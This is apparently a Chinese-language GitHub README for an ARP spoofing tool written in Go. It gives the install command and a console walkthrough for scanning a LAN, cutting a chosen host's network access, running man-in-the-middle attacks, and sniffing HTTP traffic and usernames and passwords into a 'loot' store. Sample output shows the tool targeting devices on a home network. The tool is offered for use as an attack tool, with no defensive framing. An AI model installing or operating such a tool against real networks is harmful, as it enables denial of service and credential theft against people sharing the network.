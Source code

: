 # [ARP Spoofing]
<img src="https://img-blog.csdnimg.cn/20210726194704703.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzQxNTY0NA==,size_16,color_FFFFFF,t_70" width="400px">
## [Download]
```
go install github.com/ShangRui-hash/arp-spoofing-go@latest
```
## [Usage]
因为需要使用原始套接字，所以需要用户以root权限运行程序
```
/bin/bash > sudo arp-spoofing-go 
```
输入help ，查看可以使用的命令
```
阿弥陀佛 > help
- Commands:
  - clear              clear the screen
  - cut                通过ARP欺骗切断局域网内某台主机的网络
  - exit               exit the program
  - help               display help
  - hosts              主机管理功能
  - loot               查看嗅探到的敏感信息
  - middle-attack      中间人攻击
  - scan               扫描内网中存活的主机
  - set                配置参数
  - show               展示信息
  - sniff              嗅探用户名和密码
  - webspy             嗅探http报文
```

### show options
检查各项配置是否正确,如果配置不正确，可以使用 set key value 设置选项key的值为value
```
阿弥陀佛 > show options
+---------+-------------------+----------+----------------------+
|  NAME   |       VALUE       | REQUIRED |     DESCRIPTION      |
+---------+-------------------+----------+----------------------+
| ifname  |        en0        |   true   |     监听哪个网卡     |
+---------+-------------------+          +----------------------+
|  range  | 192.168.31.117/24 |          |       扫描范围       |
+---------+-------------------+          +----------------------+
| method  |        arp        |          | 扫描方式:all,arp,udp |
+---------+-------------------+          +----------------------+
| gateway |   192.168.31.1    |          |     局域网的网关     |
+---------+-------------------+----------+----------------------+
ARP Scan Options
```
### scan 扫描局域网中的主机
```
阿弥陀佛 > scan
[===================>] 99% 
```
### hosts 查看所有扫描到的主机
```
阿弥陀佛 > hosts
+----+----------------+-------------------+--------------------------------+
| ID |       IP       |        MAC        |            MACINFO             |
+----+----------------+-------------------+--------------------------------+
| 0  |  192.168.31.1  | ec:41:18:d9:a2:b9 |   XIAOMI Electronics,CO.,LTD   |
+----+----------------+-------------------+--------------------------------+
| 1  | 192.168.31.71  | 50:98:39:03:24:5e |  Xiaomi Communications Co Ltd  |
+----+----------------+-------------------+--------------------------------+
| 2  | 192.168.31.149 | ba:52:72:92:ea:f4 |                                |
+----+----------------+-------------------+--------------------------------+
| 3  | 192.168.31.168 | 8a:c4:6b:ac:25:49 |                                |
+----+----------------+-------------------+--------------------------------+
| 4  | 192.168.31.196 | 94:87:e0:37:af:37 |  Xiaomi Communications Co Ltd  |
+----+----------------+-------------------+--------------------------------+
| 5  | 192.168.31.200 | 50:5b:c2:c9:e8:d1 | Liteon Technology Corporation  |
+----+----------------+-------------------+--------------------------------+
| 6  | 192.168.31.222 | 3c:a5:81:94:43:25 | vivo Mobile Communication Co., |
|    |                |                   |              Ltd.              |
+----+----------------+-------------------+--------------------------------+
| 7  | 192.168.31.224 | 50:5b:c2:e9:e5:03 | Liteon Technology Corporation  |
+----+----------------+-------------------+--------------------------------+
```
### cut 向某台主机发送arp欺骗报文,启动后 发送数据包的协程将在后台默默运行
```
which host do you want to attack?
 ❯ 192.168.31.200
   192.168.31.222
   192.168.31.224
   192.168.31.1
   192.168.31.71
   192.168.31.149
   192.168.31.168
   192.168.31.196
```
```
Deceit gateway or target?
 ❯ gateway
   target
```
```
Send Reply packet or Request packet?
 ❯ request
   reply
```
```
+----------------+--------------+----------+--------+
|      目标      |     网关     | 欺骗方式 | 包类型 |
+----------------+--------------+----------+--------+
| 192.168.31.222 | 192.168.31.1 |  target  | reply  |
+----------------+--------------+----------+--------+
[*] 欺骗协程启动成功
[*] show cutted 查看当前正在被攻击的设备
```
### show cutted 
```
阿弥陀佛 > show cutted
+----------------+
|  CUTTED HOSTS  |
+----------------+
| 192.168.31.222 |
+----------------+
```
### stop cut 停止发送
```
Please select host.
 ❯ 192.168.31.222
Stop cutting: 192.168.31.222
```

其他功能：
- webspy 可以嗅探所有流经本机网卡的http包,启动webspy前，建议向使用middleattack将目标主机的流量导过来
<img src="https://img-blog.csdnimg.cn/2021072619170764.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzQxNTY0NA==,size_16,color_FFFFFF,t_70"/>
- sniff 嗅探有敏感信息的http数据包，并存入redis，可以通过loot命令查看收集到的数据包

# [TODO] 

3. 优化webspy的功能
4. 检查中间人攻击模块 篡改数据包的mac地址是否确实篡改了
如果确实篡改了，为什么 wireshark 抓不到
5. 解决本主机在启动中间人攻击模块后上网慢的问题
6. 设置一个过滤器，只监听欺骗双方的数据包,查下过滤器的语法